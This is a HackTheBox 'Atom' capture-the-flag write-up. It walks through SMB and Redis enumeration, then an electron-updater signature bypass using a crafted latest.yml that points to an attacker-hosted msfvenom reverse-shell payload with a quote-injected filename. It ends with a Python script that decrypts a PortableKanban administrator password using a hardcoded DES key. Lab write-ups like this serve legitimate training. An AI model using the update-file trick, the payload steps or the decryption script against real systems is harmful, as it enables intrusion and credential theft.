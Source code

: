 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*


----------------------------------------------------------------------------------------------------

## FOOTHOLD

- Start a nmap scan with default script and version detections and the verbosity flag turned on to see open ports on the fly without having to wait for the scan to finish.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)
- A full port scan reveals redis is active on port `6379` along w winrm at 5985 which shows we can probably use remoting with authentic creds.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)
- We start off by enumerating port 80.
    - We find a possible username at the end of the page: MrR3boot@atom.htb.
    - From this we infer and add `atom.htb` to our `/etc/hosts` file. Continue browsing the site.
    - Directory Bruteforcing with gobuster results in nothing too userful, moving on. 

### Enumerating redis

- Much cant be enumerated since redis requires credentials to authenticate. Checking the format of authentication shows it requires only the password. We could attempt to brute force the password if nothing turns up from smb.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)

### Enumerating smb

- `smbmap` shows use we have access to 2 shares amongst. **Software_Updates** seems interesting as we have **right access** too to it.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)
- Using `smbclient` to connect to the share with null authentication:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)
- Grap the pdf in the share. Looking at the pdf we infer 2 things:
    1. **Built with : electron-builder**
    2. We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here.
- This link explains a suitable exploit: [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
- In short is a vulnerability caused by an unescaped variable. We can trigger a parse error in the script to achieve code execution.
- The exploit bypasses inbuilt signature checks as shown below.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

## POST EXPLOITATION

***GETTING user.txt***
- Generate an msfvenom payload of choice . Generate a reverse https executable and then rename it with single quotes.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)
- Rename the file to the filename as `d'payload.exe` as shown.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)
- Calculate the hash using the prescribed syntax as shown below: 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)
- Setup a listener on msfconsole to catch your shell using `multi/handler`.
- Generate the `latest.yml` file update. Replace the path and the hash.
    ```bash
    version: 1.2.3
    path: http://10.10.14.52/d'payload.exe 
    sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
    ```
- Start a server to host `d'payload.exe` using: `sudo python -m SimpleHTTPServer 80`
- Finally put the update file in one of the client folders on the share using smbclient. Wait for about 15-20 secs and let the update happen. A meterpreter shell is recieved.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)
- A getuid command confirms we are `ATOM\jason`.
- Retrive `user.txt` from jason's dekstop folder.

***GETTING root.txt***
- Enumerate the host with winpeas. Begin by dropping winpeas on the box.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)
- Jason's credentials do not allow `winrm` remoting. A user guide pdf exists which we might have a look at if needed.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)
- Since we already know redis was on,  we find its config file. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)
- We finally found the password for the redis server as shown. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)
- Use this [guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.
- Now follow these steps:
    1. Connect to redis using:
    `redis -h 10.10.10.237`
    2. Authenticate using the password:
    `auth pass`
    3. Retrive info on the keyspace using:
    `info keyspace`
    4. We see that there is one databse - number 0 which has 4 keys. View the keys using: `keys *`
    5. We see a bunch of keys. Retrieve the first or last, it might most likely be the administrator's key: `get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)
- We now have the administrator hash.
- Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for further clues.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)
- Googling around it is figured that portable-kanban stores the settings for the encrypted password.
- Searching around for an exploit an encrypted password disclosure vulnerability is found [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/).
- Remove the unnecessary `except` statement.
- The python script:
    ```python
    import json
    import base64
    from des import * 

    #python3 -m pip install des

    try:
        hash = str(input("Enter the Hash : "))
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
    except:
        print("Wrong Hash")
    ```
- Install `des` using: `sudo pip3 install des`

- Run the script, input your hash and get the decrypted hash. 
    
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)
- We now finally have the password for the administrator account. 
- Lets try winrm again using these credentials. The credentials are valid.
![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)
- Grab `root.txt` from the Desktop of the Administrator's account.

----------------------------------------------------------------------------------------------------





